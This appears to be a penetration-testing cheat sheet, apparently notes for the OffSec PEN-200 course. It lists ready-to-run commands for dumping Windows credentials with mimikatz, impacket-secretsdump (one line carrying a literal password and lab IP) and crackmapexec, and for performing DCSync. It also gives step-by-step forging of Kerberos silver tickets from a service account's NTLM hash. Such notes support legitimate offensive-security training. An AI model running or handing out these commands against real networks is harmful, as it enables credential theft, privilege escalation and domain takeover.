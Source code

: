 
### Secret Dumping 
```
.\mimikatz.exe "privilege::debug" "log mimikatz_passwords.txt" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::lsa /patch" "exit"

#DC SYNC

lsadump::dcsync /user:<domain>\<user>
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
impacket-secretsdump <user>@<ip>

crackmapexec smb <ip> -u <user> -p <password> --sam / --lsa / --ntds
```

### Silver Tickets
Is there an interesting service running such as an HTTP or SMB share that can't be accessed?
https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/attacking-active-directory-authentication/performing-attacks-on-active-directory-authentication/silver-tickets
```
#Grab SID of your user.
whoami /user

#Open mimi
privilege::debug

#Grab NTLM hash of service account
sekurlsa::logonpasswords

#Generate ticket
kerberos::golden /sid:<id> /domain:<domin> /ptt /target:<ip/dnsname> /service:<protocol eg. http /smb> /rc4:<ntlm_of_service> /user:<our_adminuser>

#Check ticket
klist

#Access service
example: iwr -UseDefaultCredentials http://<target>
```

